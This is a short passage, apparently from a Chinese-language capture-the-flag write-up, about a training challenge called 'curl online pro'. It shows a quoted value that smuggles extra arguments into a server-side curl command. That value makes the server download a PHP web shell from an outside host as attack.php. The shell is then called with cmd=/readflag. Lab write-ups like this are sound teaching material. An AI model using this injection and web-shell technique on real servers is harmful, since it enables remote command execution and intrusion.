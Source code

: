 這裡我們嘗試下指令讓他下載這個檔案:
```php
https://training.ching367436.me/shell/shell.php' -o attack.php 'b
變成
curl -s 'https://training.ching367436.me/shell/shell.php'\\'' -o attack.php '\\''b'
```
這樣他就會到
https://training.ching367436.me/shell/shell.php/
下載這個檔案(/不用理，應該有做重定向?)，並塞到新建的attack.php裡面

之後就可以透過網址
```
https://curl-online-pro.ching367436.me:8443/attack.php
```
跟這個php檔作互動

最後只要帶上參數:
```
https://curl-online-pro.ching367436.me:8443/attack.php?cmd=/readflag
```
就可以取得flag了

封面圖來源: [表情が素晴らしかったです](https://www.pixiv.net/artworks/111611540)

---

